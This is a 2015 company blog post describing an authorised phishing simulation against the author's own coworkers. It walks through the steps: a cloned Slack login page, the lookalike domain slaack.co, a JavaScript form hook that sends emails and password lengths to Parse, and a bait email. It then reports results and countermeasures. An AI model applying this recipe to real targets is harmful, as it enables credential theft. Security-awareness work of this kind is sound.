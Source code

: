 ```yaml
---
path: /posts/64-hacking-your-own-company
title: "Hacking your own company"
author: joao-justo
date: 18/11/2015
cover: https://subvisual.s3.amazonaws.com/blog/hero/129/image.jpg
retina_cover: https://subvisual.s3.amazonaws.com/blog/hero/129/image@2x.jpg
tags:
  - development
intro: "I have a confession to make. A while ago I hacked my own company."
---
```


I have a confession to make. A while ago I hacked my own company.

##Motivation

You might be wondering why someone would hack his own company. A company like Subvisual has a transparent communication and processes. So, if I want to know something, all I got to do is ask.

The answer to this question is [Mr. Robot](http://www.imdb.com/title/tt4158110/?ref_=fn_al_tt_1)!
Yes, the TV show.

I’m a big fan of Mr. Robot.
For those of you who don’t know it, it’s a hacker TV series that’s very realistic. Instead of showing some random letters on a terminal they showed the viewers real techniques and exploits.

If you watched the series you certainly have noticed that our favourite hacker Elliot accomplishes some hacks by masquerading as a trustworthy entity and then simply ask for information directly to the victim.

This technique is called a phishing scam and despite being one of the most used exploits on the internet, it’s still one of the most effective.

I was skeptic that people would fall so easily on such a simple exploit so I became very curious on this. After some time I came up with a simple case study:

I wanted to create a phishing scam targeting my co-workers. The goal was to send a fake email to my whole team, containing a link to a malicious site, in order to see how many people would login on it, giving me their credentials.

If you put some thought on the matter your own team members are the perfect test subjects. You spend at least 8 hours per day with them, you know some of their habits, some of their tools and most importantly some of the sites they use and therefore some of the emails they receive. You also have the opportunity to watch first-hand how they will react when they see it.

Now you might be wondering if this is reasonable. After all getting someone’s private information might have a devastating effect on both the victim and the hacker, also worth mentioning that such action is… illegal. Considering that the victim will be sitting next to you this might not seem like a good idea after all. Also worth mentioning that my targets are experienced web developers so their defences are probably a step higher. 

How can this be accomplished in such conditions? If you stick with me a little longer I’ll care to explain.

##Preparation

My first plan was to attack the whole company at once keeping the whole thing secret and then, on a Friday Talk reveal what happened and how many people had fallen. After some days thinking on this and given the reasons above I changed the plan a bit.

The first thing I did was to ask permission and guidance to Roberto, our CEO. He received the idea surprisingly well and like me he was curious to know if our team would be able to recognise a simple phishing scam and if so, how could we improve the company security and awareness. We also shared the same concerns regarding personal information so it was decided that passwords or other relevant information would not be stored. The only thing that I would try to capture was the password length as proof that the given person had been victim of the attack.

With this set I began to prepare the hack.

After some time observing the team I noticed that most of our internal communication is done on [Slack](https://slack.com/), [Trello](https://trello.com/) and [GitHub](https://github.com/). The emails that we received are mostly notifications from these apps so I started to analyse how easily I could create a clone of those and trick my coworkers to login to it.

My weapon of choice was Slack. The main reason for this was the fact that almost all of our important communication is generated on it. Theoretically if someone received an important email saying that he/she missed an important message this person should follow the link to catch up.

Here’s an example of a normal notification email from Slack:

![Regular Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/67/image-1447699776511.png)

The email itself shows the missing mention so you might think that this not an ideal situation. For an efficient phishing scam we usually need some content that requires an action, a hook that leads the victims to follow a malicious link.

For this to work I needed to change the content by inserting a partial message and a call to action button, but maintain the familiar layout and appearance.

##Building the attack

This is the geeky part but there is not much to it on this field. All we need is a simple static web page and some place to save the emails and password lengths.

I chose to host the page on [GitHub Pages](https://pages.github.com/) and to use [Parse](https://parse.com/) as my attack storage for the sake of simplicity.

Then I started searching for a domain that resembled slack.com and indeed I found one available - slaack.co.

To clone the whole slack.com site I used an app called SiteSucker. This duplicates the site directory structure and files on your machine meaning that my cloned slack would look exactly like the original even on mobile.

With this set getting the emails and passwords lengths was very easy. I just removed the code from the login form and added some lines:

```
Parse.initialize(‘xxxxxx’,’xxxxxx’);

var ScammedUser = Parse.Object.extend(‘ScammedUser’);
var scammedUser = new ScammedUser();
	
function onSubmitKey(e) {
  if (e.keyCode == 13)
    onSubmit();
}
	
function onSubmit() {
  var accountDetails = {
    email: $(‘#email’).val(),
    password: $(‘#password’).val().length
  };
			
  if (!accountDetails.email ||
      !accountDetails.password)
    return;
	
  scammedUser.save(accountDetails)
    .then(function(object) {
      console.log(‘Success’, accountDetails);
      window.location.href = realSlackLink;
    });
}
```

Finally, the fake email looked like this:

![Fake Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/68/image-1447699815368.png)

##Attacking

This whole thing was online for more than 3 days, ready and waiting for the perfect opportunity. I chose to strike on a Thursday by the end of the day as people left the office. I sent the fake email. That way, as people arrived home, they would see an email notification from the team. Even better, they would see a notification from their CEO on a channel called “#secretProject” so the curiosity factor was involved.

##Results

In the end 20% of our team fell on the attack (all of them are developers). While this number might seem acceptable, it is not. On such a sensible platform like Slack, where most of our company's communication happens, a malicious attacker only needed one person to gain access to privileged information. Also worth noticing that if someone gained access to Slack this person could easily try to impersonate the victim in order to collect other information from the victim’s coworkers.

I presented this results on a Friday Talk and after some discussion I understood the rest of the people didn’t open the link only because they didn't care about Slack email notifications. I also presented some context and countermeasures about phishing attacks that helped raising the awareness for this kind of vulnerability.

The most important lessons taking from this are:

-
Nobody is safe from being victim of a phishing attack, even experienced developers can easily be victims.

-
It’s hard to identify fake communication from the platforms we use every day. We don’t pay that much attention to it so it’s only natural that our defences are lower than normal.

-
People now better understand the importance of security measures like two factor authentication.

-
It was fun and a completely different approach to this security theme; by feeling the problem people understand better that they need to create defences against such attacks.

On the end what I have to tell you is to go ahead and do the same on your company. It’s easier to construct defences with a real understanding of the problem than just trying to fight something that was not experienced by anyone.

I will try to identify and correct more weaknesses in Subvisual and I hope you will do the same at your own work place.

Happy hacking.

